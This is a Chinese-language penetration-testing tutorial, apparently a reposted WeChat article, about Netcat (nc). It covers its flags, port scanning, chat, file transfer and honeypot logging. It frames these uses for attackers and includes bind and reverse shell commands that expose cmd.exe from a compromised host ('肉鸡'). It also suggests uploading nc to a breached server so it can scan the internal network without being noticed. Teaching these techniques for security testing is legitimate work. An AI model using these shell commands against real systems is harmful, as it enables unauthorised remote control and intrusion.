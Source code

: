 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247484166&idx=1&sn=dc0998b6a6bb60a963db0a74d8c94174&chksm=eaad833bddda0a2daad7fd2970af9b2d2a08f82e5152bce68869ecc13debbc816942efe15e45&scene=21#wechat_redirect)

**目录**

                     

Netcat

常用参数：

常见的用法：

端口扫描：

聊天

文件传输

反弹 shell

蜜罐

**Netcat** 常称为 nc，拥有 “瑞士军刀” 的美誉。nc 小巧强悍，可以读写 TCP 或 UDP 网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于 socket 协议工作。在渗透测试领域，我们通常利用它来反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HzZrTT4UZAcukC3cKqetSHpGJABL8ZCM8yibLyNpvY2Zia3IAY3P6yE9A/640?wx_fmt=gif)

常用参数

·   -l： 开启监听

·   -p：指定端口

·   -t： 以 telnet 形式应答

·   -e：程序重定向

·   -n：以数字形式表示 ip

·   -v：显示执行命令过程

·   -z :  不进行交互，直接显示结果

·   -u ：使用 UDP 协议传输

·   -w :  设置超时时间

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HoaHEjBLqmAGrZlH8BTIAaGKt4xLxqt7gEL9Jj00Y7u9ic8Xy6EYiaVBQ/640?wx_fmt=gif)

常见的用法

**端口扫描：**

如果是想单纯的端口扫描的话，利用其它工具比如 nmap 会更好。nc 端口扫描最主要的用途是，当我们获得了一个网站的权限之后，我们想再渗透进该网站的内网进行渗透。然而，我们的 nmap 工具是不能扫描到内网的，所以这时我们可以把 nc 上传到 web 服务器上，利用它来扫描内网主机。而由于 nc 体积很小，所以不容易被发现。

nc  -z -v -n 192.168.10.14  20-23   # 端口或端口范围

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29nTXJO7iaS22OBaibAt1UhHrErQ0wibIbXaDxgmtHX5rcY7cP9ic3EQ2gcw/640?wx_fmt=png)

如果探测到端口开放了，比如上面的 80 端口开放了，我们就可以继续探测其 banner 信息： 

nc -v -n 192.168.10.14  80

然后输入 get

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29mUQicbouxPEDm3iaJT0iaVxFoAfv188sziaTtl76N9H5bl7RiaPnf4m5RMg/640?wx_fmt=png)

**聊天**

我们还可以利用 nc 做一个简易版本的聊天工具，通过一边监听端口，一边发送消息去该端口，形成一个简易版本的服务端—客户端模型。

**服务器端：**

nc   -lvp    8888     # 监听 8888 端口  -l 监听 -v 显示详细信息  -p 指定端口

**客户端：**

nc  -nv  10.96.10.208  8888    # 连接到服务器的 8888 端口  -n 以数字形式显示 ip  -v 显示详细信息

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29a0vOuJdXT3pWrXLzRbiaSRoXaA13ggCczxnveWqhVhb1NUib1cdic1Fgw/640?wx_fmt=png)

**文件传输**

我们可以利用 nc 往客户端传送文件

**服务器端：**

nc  -lvp  8888 < test.txt

**客户端：**

nc -nv 10.96.10.208 8888 > test.txt

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29IPYeeE3MTvafZzpKUfwCK5Yd9sY3Y2GzVnib76FRnAh2h25NuR6XBlQ/640?wx_fmt=png)

**反弹 shell**

正向连接，意思就是我们主动连接肉鸡

假如我们现在入侵到了一台主机上，我们可以通过执行以下命令将该主机的 cmd 命令弹到 8888 端口上

**肉鸡**

nc -lvv -p 8888 -t -e cmd.exe

然后我们的主机访问该肉鸡的 8888 端口

**我们的主机**

nc  -nvv  192.168.10.14  8888

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29gaqIX2khSY9HcZwu7bL7pyib4Tu0VYnShqibrY3pnCQoQecQoQhKiaO7g/640?wx_fmt=png)

反向连接，意思就是我们监听端口，然后肉鸡主动连接到我们的主机

**我们的主机**

nc  -lvp  8888

**肉鸡 (Windows)**

nc  -t -e cmd.exe 10.96.10.208 8888

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29IblZ2hBgddJXceWX9GZfiaCRMbNT6130NypAQ0ykf012xy25dCLQtqw/640?wx_fmt=png)

**蜜罐**

作为蜜罐

一直监听 8888 端口，知道 ctrl+C 停止

nc  -L -p  8888  > log.txt   # 监听 8888 端口，并且将日志信息写入 log.txt 中

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29vBJIpib762U5NhsLuhn9hKHkkKAf5H3z2cl1zwmRxNIw9gCB6GlHlLA/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2ckkbwTsBvnDJpb89o8WMxvAKOaVnz60hOe7y3wAHiclddyK53lpEKIQlx4DKOq6EojHibVicgibDB2aQ/640?wx_fmt=gif)

来源：谢公子的博客

责编：浮夸

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2edCjiaG0xjojnN3pdR8wTrKhibQ3xVUhjlJEVqibQStgROJqic7fBuw2cJ2CQ3Muw9DTQqkgthIjZf7Q/640?wx_fmt=png)

由于文章篇幅较长，请大家耐心。如果文中有错误的地方，欢迎指出。有想转载的，可以留言我加白名单。

最后，欢迎加入谢公子的小黑屋（安全交流群）(QQ 群：783820465)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SjCxEtGic0gSRL5ibeQyZWEGNKLmnd6Um2Vua5GK4DaxsSq08ZuH4Avew/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?wx_fmt=png)